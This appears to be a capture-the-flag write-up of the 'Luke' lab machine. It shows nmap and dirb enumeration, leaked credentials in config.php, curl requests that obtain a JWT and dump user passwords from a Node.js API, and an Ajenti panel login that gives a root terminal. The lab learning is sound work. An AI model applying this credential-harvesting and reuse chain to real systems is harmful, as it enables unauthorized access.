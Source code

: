 ```yaml
---
layout: post
title: Luke - 10.10.10.137
difficulty: 6
author: Andrea Melis
author_twitter_name: wild_boar
author_twitter_url: https://twitter.com/wild_boar
---
```


# USER

## Reconnaissance

### NMAP

As usual we always start with **Nmap** scanning:

<pre>root@pentestbox:~# nmap -sC -sV -oA luke 10.10.10.137

Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-20 00:13 CEST
Nmap scan report for 10.10.10.137
Host is up (0.036s latency).
Not shown: 996 closed ports
PORT STATE SERVICE VERSION
<b>21/tcp open ftp vsftpd 3.0.3+ (ext.1)</b>
<b>22/tcp open ssh?</b>
<b>80/tcp open http</b>
<b>3000/tcp open http Node.js Express framework</b>
<b>8000/tcp open http Ajenti http control panel</b>

</pre>

It seems there is anonymoys **ftp** login, so we logged in and there is only one file
available, which download tell us:

<pre> $ cat for_Chihiro.txt
Dear Chihiro !!
As you told me that you wanted to learn Web Development and Frontend, I can
give you a little push by showing the sources of
the actual website I've created .
Normally you should know where to look but hurry up because I will delete
them soon because of our security policies !

Derry
</pre>

So it may look like there is an hidden website or page somewhere.
So, first of all we scanned all possible files and folder over the port 80 and 3000
which look like a website over 80 port:

![](/images/luke/port_80_luke.png)

And over port 3000 a simple node js api service:

![](/images/luke/port_3000_luke.png)

### DirBuster

With dirbuster and big.txt wordlist we found some interesting file such as:

<pre>
File found: /config.php - 200
Dir found: /css/ - 200
File found: /css/bootstrap.min.css - 200
File found: /css/scrolling-nav.css - 200File found: /css/signin.css - 200
</pre>

Where config.php retrieved us what it looks as db credentials:

<pre>
$dbHost = 'localhost'; $dbUsername = 'root'; $dbPassword =
'Zk6heYCyv6ZE9Xcg'; $db = "login"; $conn = new mysqli($dbHost,
$dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn ->
error);
</pre>

But those credentials were incorrect for the login.php and /management login
which we found with dirb.
So we start to look at the js api service. We needed to retrieve the available api
so we used dirb again over this port:

<pre>
 $dirb http://10.10.10.137:3000 -w /usr/share/wordlists/dirb/big.txt
-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Fri Sep 20 00:37:31 2019
URL_BASE: http://10.10.10.137:3000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Stopping on warning messages
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.10.10.137:3000/ ----
+ http://10.10.10.137:3000/login (CODE:200|SIZE:13)
+ http://10.10.10.137:3000/Login (CODE:200|SIZE:13)
+ http://10.10.10.137:3000/users (CODE:200|SIZE:56)
-----------------
END_TIME: Fri Sep 20 00:40:28 2019
DOWNLOADED: 4612 - FOUND: 3
</pre>

So we have a login api and users api.
Users api needs and authenticaton token probably supplied by the /login api.
So first we tried to login we the credentials found in the config.php file.

<pre>
$ curl --header "Content-Type: application/json" \
> --request POST \
> --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"admin"}' \
> http://10.10.10.137:3000/login
{"success":true,"message":"Authentication
successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2Vybm
FtZSI6ImFkbWluIiwiaWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTky
NzB9.NkXilej8x5JP2MOHRz3SDkgPs3AVz4YEmtg2s_H0siY"}
</pre>

**Success!!**

The post requests give us the access token, which we can use to query the /users
api:

<pre>
$ curl -X GET -H 'Authorization: Bearer
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwi
aWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTkyNzB9.NkXilej8x5JP2
MOHRz3SDkgPs3AVz4YEmtg2s_H0siY' http://10.10.10.137:3000/users/
[{"ID":"1","name":"Admin","Role":"Superuser"},
{"ID":"2","name":"Derry","Role":"Web Admin"},
{"ID":"3","name":"Yuri","Role":"Beta Tester"},
{"ID":"4","name":"Dory","Role":"Supporter"}]
</pre>

**Perfect!** We have users now, let’s try to query one user at time:

<pre>
$ curl -X GET \
> -H 'Authorization: Bearer
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwi
aWF0IjoxNTY4OTMyODcwLCJleHAiOjE1NjkwMTkyNzB9.NkXilej8x5JP2
MOHRz3SDkgPs3AVz4YEmtg2s_H0siY' \
> http://10.10.10.137:3000/users/Dory
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
bet@tester87
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
</pre>


In fact we discovered after several tries that the Derry credentials were correct
for the /management panel
And this is what looks like the management panel; we just have some files
config.php login.php which we already had:

![](/images/luke/after_login_luke.png)

But now we alse have config.json file! Which looks really interesting since
seems to be something related to ajenti page, which is the login page discovered
on port 8000:
This is what login page looks like:

![](/images/luke/ajenti_login_luke.png)

And this is otherwise what the config.json file shows on /management page:

![](/images/luke/json_luke.png)

What is immediately visible is the password field;which seems to be the admin
password for ajenti login.

<pre><b>password "KpMasng6S5EtTy9Z"</b></pre>

So Username root and password KpMasng6S5EtTy9Z:

![](/images/luke/logged_luke.png)

**Logged in!!**

# ROOT

This looks like Ajenti backend and after several google research we noticed that
there a “Terminal” options which it open a terminal with bash with the user
privileges, in our case guess what... root!!
So clicking on terminal and running a new one gave us a perfect shell with root
priv:

![](/images/luke/rooted_luke.png)


From here we can also of course create a reverse shell to our host machine but
the flag is already retrieved.


#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :) 
